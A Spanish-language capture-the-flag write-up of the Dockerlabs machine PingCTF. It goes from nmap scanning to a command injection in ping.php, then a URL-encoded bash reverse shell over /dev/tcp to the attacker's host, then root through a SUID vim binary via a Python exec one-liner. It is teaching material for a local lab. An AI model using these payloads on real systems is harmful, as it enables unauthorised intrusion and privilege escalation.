 ```yaml
---
title: PingCTF - Easy (Dockerlabs)
permalink: /PingCTF-Dockerlabs-Writeup/
tags:
  - "Linux"
  - "Easy"
  - "Command Injection"
  - "SUID Binaries"
  - "Vim"
categories:
  - writeup
  - hacking
  - dockerlabs
toc: true
toc_label: Topics
toc_sticky: true
sidebar:
  - main
seo_tittle: PingCTF - Easy (Dockerlabs)
seo_description: Abusa un servicio web inseguro y de binarios SUID para vencer PingCTF.
excerpt: Abusa un servicio web inseguro y de binarios SUID para vencer PingCTF.
header:
  overlay_image: /assets/images/headers/pingctf-dockerlabs.jpg
  overlay_filter: 0.7
  og_image: /assets/images/headers/pingctf-dockerlabs.jpg
---
```



![image-center](/assets/images/posts/pingctf-dockerlabs.png)
{: .align-center}

**Habilidades:** Command Injection, Abusing SUID Binaries (`vim`)
{: .notice--primary}

# Introducción

PingCTF es una máquina de Dockerlabs de dificultad `Fácil` donde debemos comprometer un servicio web para ganar acceso inicial. Una vez dentro, abusaremos de permisos mal configurados para el binario `vim`.
<br>
# Reconocimiento
---
Enviaremos una traza ICMP para comprobar que la máquina víctima se encuentre activa

~~~ bash
ping -c 1 172.17.0.2     
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.232 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.232/0.232/0.232/0.000 ms
~~~


## Nmap Scanning 

Haremos un escaneo con el propósito de identificar puertos abiertos en la máquina víctima

~~~ bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2 -oG openPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-31 18:15 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.42 seconds
~~~

- `--open`: Mostrar únicamente los puertos abiertos
- `-p-`: Hacer un escaneo del total de puertos **(65535)**
- `--min-rate 5000`: Enviar mínimo **5000 paquetes por segundo**
- `-n`: No aplicar **resolución DNS**, lo que acelera el escaneo
- `-sS`: Modo de **escaneo TCP SYN**, no concluye la conexión, lo que hace el escaneo más ágil
- `-Pn`: Omitir el **descubrimiento de host (ARP)**
- `-oG`: Exportar en formato `grepable`
- `-v`: Ver el progreso del escaneo

Vemos que solamente el servicio `HTTP` se encuentra activo. Realizaremos un segundo escaneo frente a este servicio con el fin de detectar la versión y aplicar una serie de scripts básicos de reconocimiento

~~~ bash
nmap -p 80 -sVC 172.17.0.2 -oN services                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-31 18:15 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000054s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Ping
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.93 seconds
~~~

- `-p`: Especificar puertos
- `-sV`: Identificar la versión del servicio 
- `-sC`: Uso de scripts de reconocimiento
- `-oN`: Exportar la salida en formato normal


## Web Analysis

También podemos aplicar un escaneo de las tecnologías web que el servidor web pueda estar empleando para gestionar el contenido

~~~ bash
whatweb http://172.17.0.2                                  
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[Ping]
~~~

Si navegamos hasta la web, veremos un servicio que al parecer nos permite verificar conectividad con una dirección IP

![image-center](/assets/images/posts/pingctf-web-analysis.png)
{: .align-center}

Si hacemos clic en `Enviar`, el servidor nos muestra lo siguiente, donde envía la dirección IP en un parámetro de la `url`

![image-center](/assets/images/posts/pingctf-web-analysis-2.png)
{: .align-center}
<br>
# Intrusión / Explotación
---
## Command Injection

Sabiendo que esta funcionalidad posiblemente ejecute el comando `ping`, podemos intentar inyectar un comando para ver si se ejecuta

~~~ bash
http://172.17.0.2/ping.php?target=127.0.0.1; id
~~~

![image-center](/assets/images/posts/pingctf-command-injection.png)
{: .align-center}

Vemos la salida del comando `id`. En este punto podemos intentar enviarnos una reverse shell a través de la URL, aunque posiblemente necesitemos codificar algunos caracteres especiales como `&`.

Abriremos un listener antes de enviar la conexión a nuestra máquina, escucharemos por un puerto, en mi caso he elegido el `443` (puedes elegir otro si quieres)

~~~ bash
nc -lvnp 443
~~~

Nuestra reverse shell luce más o menos de la siguiente manera

~~~ bash
http://172.17.0.2/ping.php?target=127.0.0.1;bash -c %27/bin/bash -i >%26 %2Fdev%2Ftcp%2F172.17.0.1%2F443 0>%261%27
~~~

- `%26 --> &`
- `%27 --> '`
- `%2F --> /`


## Shell as `www-data`

Al enviar la solicitud maliciosa al servidor, recibiremos la conexión como el usuario `www-data`

~~~ bash
nc -lvnp 443 
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37076
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5ba58a964e24:/var/www/html$ 
~~~
<br>


# Escalada de Privilegios
---
## Abusing SUID Binaries (`vim`)

Si listamos binarios que tengan el bit `SUID` habilitado, veremos un binario inusual

~~~ bash
www-data@5ba58a964e24:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/vim.basic
~~~

 Si ejecutamos `vim.basic`, según la salida veremos que parece ser una copia de `vim`

~~~ bash
www-data@5ba58a964e24:/var/www/html$ /usr/bin/vim.basic --help 
VIM - Vi IMproved 9.1 (2024 Jan 02, compiled Apr 01 2025 20:12:31)

Usage: vim [arguments] [file ..]       edit specified file(s)
   or: vim [arguments] -               read text from stdin
   or: vim [arguments] -t tag          edit file where tag is defined
   or: vim [arguments] -q [errorfile]  edit file with first error
...
...
~~~


## Root Time

Una simple búsqueda en `GTFOBins` nos muestra cómo abusar de este permiso, donde ejecutamos una sesión de `bash` con el parámetro `-p` a través de `python3`

~~~ bash
www-data@5ba58a964e24:/var/www/html$ /usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'

E79: Cannot expand wildcards
Press ENTER or type command to continue # Presionamos ENTER

# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Bite off more than you can chew, then chew it.
> — Ella Williams
{: .notice--info}
